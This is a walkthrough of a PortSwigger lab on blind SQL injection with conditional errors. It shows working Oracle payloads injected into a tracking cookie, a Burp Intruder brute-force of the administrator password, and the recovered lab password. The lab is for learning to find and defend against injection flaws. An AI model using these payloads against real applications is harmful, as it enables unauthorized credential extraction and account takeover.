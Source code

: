 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
## Task
This lab has a blind SQL injection vulnerability. The application uses cookies for analytics and executes a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond to changes if the query returns rows. However, if the query fails, the application returns a custom error message.

The database has a `users` table with `username` and `password` columns. You need to exploit a blind SQL injection vulnerability to find out the password of the admin user.

You need to log in as the admin user to solve the lab.
## Solution
Go to the website page

![image](images/20241203170607.png)

Intercept the main page request in `Burp Suite` and send it to `Repeater`

![image](images/20241222182305.png)

Add `'` to `TrackingId` and look at the result

![image](images/20241222182500.png)

Add another `'` and look at the result

![image](images/20241222182517.png)

This indicates that the syntax error (in this case, the unclosed quote) has a noticeable impact on the response.
Now we need to confirm that the server interprets the injection as a SQL query, i.e. that the error is a SQL syntax error and not some other error. To do this, you first need to build a subquery using correct SQL syntax. Let's try sending:
```SQL
TrackingId=xyz'||(SELECT '')||'
```

![image](images/20241222182544.png)

In this case, it's worth noting that the query still appears to be invalid. This may be due to the type of database - try specifying a predictable table name in the query.
```SQL
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

![image](images/20241222182613.png)

Since the error is no longer returned, this indicates that you are probably using an `Oracle` database, which requires an explicit table name in every `SELECT` query.
Now that we have created a query that looks valid, let's try sending an invalid query while maintaining the correct SQL syntax. For example, let's try querying a non-existent table name:
```SQL
'||(SELECT '' FROM not-a-real-table)||'
```

![image](images/20241222182654.png)

This time, an error will be returned. This behavior strongly suggests that our injection is being processed as a SQL query on the server side.
As long as we always inject syntactically correct SQL queries, we can use this error response to get key information about the database. For example, to check if the `users` table exists, we send the following query:
```SQL
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

![image](images/20241222182744.png)

Since this query does not raise an error, we can conclude that the table exists. Note that the `WHERE ROWNUM = 1` condition is important here so that the query does not return more than one row, which would break our concatenation.
Now let's try using conditions:
```SQL
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

![image](images/20241222182817.png)

We see an error. Let's try another condition:
```SQL
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

![image](images/20241222182905.png)

There is no error. This demonstrates that you can trigger an error conditionally, depending on the truth of a specific condition. The `CASE` operator tests a condition and returns one expression if the condition is true, and another expression if it is false. The first expression contains a divide by zero operation, which causes an error. In this case, the two payloads test the conditions `1=1` and `1=2`, and the error occurs when the condition is true.
Using this, we can check if the user `administrator` is in the `users` table
```SQL
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](images/20241222182953.png)

An error occurred. This means that the user `administrator` is in the `users` table
Now let's check the length of this user's password
```SQL
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](images/20241222183059.png)

An error occurs. So the password is longer than one character. Continue until the error disappears.
```SQL
'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](images/20241222183119.png)

There are `20` characters in the password. Now we will iterate over the characters of the password
```SQL
'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
Send a request with this injection to `Intruder`

![image](images/20241222183931.png)

In the `Payloads` tab, select `Simple list` and in `Payload settings [Simple list]` add characters from the `a-z` and `0-9` lists. After that, launch the attack.

![image](images/20241222184116.png)

You need to find the request with the 500 error. In this case, it is the `2` character. Let's move on to the next character.
```SQL
'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![image](images/20241222184242.png)


![image](images/20241222184321.png)

The second character of the password is `r`. We do the same with the remaining characters, of which there are 20.
Final password:
```Password
2r5nrkmpvw745gqeb6ms
```
Log in as `administrator` and change the email

![image](images/20241222184831.png)

